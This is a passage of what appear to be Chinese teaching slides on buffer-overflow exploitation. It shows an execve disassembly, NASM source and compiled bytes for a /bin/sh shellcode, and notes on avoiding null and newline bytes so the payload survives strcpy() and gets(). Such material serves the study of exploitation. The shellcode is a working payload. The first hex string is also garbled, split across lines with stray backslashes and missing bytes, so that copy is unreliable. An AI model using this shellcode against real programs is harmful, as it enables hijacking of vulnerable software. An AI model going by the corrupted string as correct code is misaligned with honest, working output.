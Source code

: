 ```
    Copy    the    first    arg (address    of    "/bin/sh”) into    EBX.
0x80002c8    <__execve+12>:    movl 0xc(%ebp),%ecx
    Copy    the    second    arg (address    of    name[])    into    ECX.
0x80002cb    <__execve+15>:    movl 0x10(%ebp),%edx
Copy    the    third    arg (null    pointer)    into    %edx.

0x80002ce    <__execve+18>:    int $0x80
    Change    into    kernel    mode.
```


## 如何利用缓冲区溢出
把指令和数据改为字符串形式

```python
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x46
\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\
xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\x
ff\xff\xff/bin/sh"
```

## shellcode开发
编写汇编程序
```
section .text
global _start

_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
编译并获取机器码
```
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
```

## shellcode开发
### 面临的挑战
- 不是所有的字符都能作为shellcode
    - `gets()`:遇到换行符就停止
    - `strcpy()`:遇到`NULL`就停止
    - ...
- shellcode需要做相应的调整
    - 删除 \x00,空格，换行符...
    - 删除不能被打印的字符
